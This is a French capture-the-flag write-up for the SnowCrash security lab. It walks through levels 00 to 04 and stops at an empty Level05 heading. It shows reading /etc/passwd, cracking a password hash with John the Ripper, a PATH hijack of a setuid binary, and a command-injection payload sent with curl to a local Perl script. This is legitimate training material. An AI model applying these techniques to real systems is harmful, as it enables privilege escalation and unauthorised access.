 # SNOW-CRASH
## Capture the flags
***

### Concept 
Un project secu qui va nous faire naviger de niveau en niveau pour nous faire trouver les flags necessaire au passage de ceux-ci.
Pour ce project il est necessaire de telecharger un .iso dans lequel tu seras mis a l'epreuve.

## Level 00:
Tu devras trouver les fichiers accessible au user : ```flag00```  
Pour cela : ```find / -user flag00 2> /dev/null```   
Tu y trouvera le mot de passe crypte : ```cdiiddwpgswtgt```

Une fois decrypte ( https://cachesleuth.com/multidecoder/), 
cela donne  ```nottoohardhere```



## Level 01:
Tu dois faire :
```/etc/passwd```
cela retourne : 
```flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash```

Pour decoder le code : ```42hDRfypTqqnw```
Tu dois mettre ce code dans John the ripper (logiciel de decryptage) ce qui te donnera : ```abcdefg```

## Level 02:


Il y a un fichier level02.pcap

Ces fichiers sont a ouvrir avec wireshark, ici le fichier une fois ouvert on peut utiliser l'option ```FOLLOW--> TCP Stream``` et on obtient un mot de passe partiel : 
<img src="./srcs/img/wireshark_global_img.png">

si on regarde les transferts qui correspondent au ```.``` on peut voir que ca corresponds au transfere d'un packet de 1 byte : 7f 
<img src="./srcs/img/wireshark_global_img.png">

en ascii 7f correspond a DEL

le mot de passe est donc : 
```ft_waNDReL0L```

## Level 03:

On arrive directement sur un folder avec un executable ```level03```

avec ```ltrace``` on peut voir cette ligne : 
```system("/usr/bin/env echo Exploit me"Exploit me```
qui nous indique un appel systeme d'echo.
On va donc faire un echo exploit en creant un fichier ```echo``` dans lequel on va mettre le path de getflag.  
Avec ```export``` on va rajouter le chemin d'```echo``` a PATH (au debut) et relancer le binaire. 

Dans ```/tmp```  
 ```vim echo```
```echo
/bin/getflag
```
```chmod + x```
  ```export PATH=/tmp:$PATH```

puis ```./level03 ```     
:)

## Level  04:

On arrive sur un folder avec un fichier perl ```level04.pl```
  Apres ouverture on voit que ce fichier peut etre execute sur le port :    
```localhost:4747``` et que le programme va print le premiere argument donne a la variable x telque :   
 ```
 level04@SnowCrash:~$curl"http://localhost:4747/level04.pl?x=whoami"
 whoami   
 level04@SnowCrash:~$curl "http://localhost:4747/level04.pl?x=$(whoami)   
 level04
 ```

L'objectif est de contourner ca pour executer getflag dans /bin/getflag telque :   
```level04@SnowCrash:~$ curl  "http://localhost:4747/level04.pl?x=\$(/bin/getflag)"```

## Level05:

